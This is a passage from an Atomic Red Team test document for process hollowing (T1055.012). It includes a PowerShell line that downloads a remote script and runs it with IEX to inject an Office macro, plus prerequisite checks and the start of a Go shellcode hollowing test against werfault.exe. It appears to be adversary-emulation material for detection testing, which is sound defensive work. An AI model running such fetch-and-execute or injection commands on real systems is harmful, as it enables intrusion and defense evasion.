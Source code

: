 
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing) 
Invoke-MalDoc -macroFile "PathToAtomicsFolder\T1055.012\src\T1055.012-macrocode.txt" -officeProduct "#{ms_product}" -sub "Exploit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #3 - Process Hollowing in Go using CreateProcessW WinAPI
Creates a process in a suspended state, executes shellcode to spawn calc.exe in a child process, and then resumes the original process.
- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode#createprocess)

**Supported Platforms:** Windows


**auto_generated_guid:** c8f98fe1-c89b-4c49-a7e3-d60ee4bc2f5a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| hollow_binary_path | Path of the binary to hollow | string | C:&#92;Windows&#92;System32&#92;werfault.exe|
| hollow_process_name | Name of the process to hollow | string | werfault|

